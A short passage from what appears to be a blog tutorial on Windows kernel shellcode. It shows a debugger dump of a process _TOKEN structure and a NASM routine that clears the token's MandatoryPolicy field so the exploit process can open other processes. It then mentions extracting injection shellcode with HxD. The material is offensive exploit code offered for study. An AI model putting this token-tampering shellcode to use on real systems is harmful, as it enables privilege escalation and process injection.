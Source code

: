 ```python
   +0x0c4 ImpersonationLevel : 0 ( SecurityAnonymous )
   +0x0c8 TokenFlags       : 0x4a00
   +0x0cc TokenInUse       : 0x1 ''
   +0x0d0 IntegrityLevelIndex : 1
   +0x0d4 MandatoryPolicy  : 1
...
```

```nasm
...
	mov rcx, [rcx+0x4b8]						; get the exploit process' _TOKEN structure
	and rcx, 0xfffffffffffffff0					; get the pointer to the object and not the fast reference
	mov byte [rcx + 0x0d4], 0x0					; set MandatoryPolicy to 0 (open handle to any process besides the privilege)

	nop
	ret

end
```
Now `MandatoryPolicy` = 0

Now let’s load the shellcode. We’ve modified our `ProcessInjection` program and extracted the shellcode via `HxD`.
![](imgs/blog/1WindowsKernelShellcode/20250222013712.png)

![](imgs/blog/1WindowsKernelShellcode/20250222013736.png)
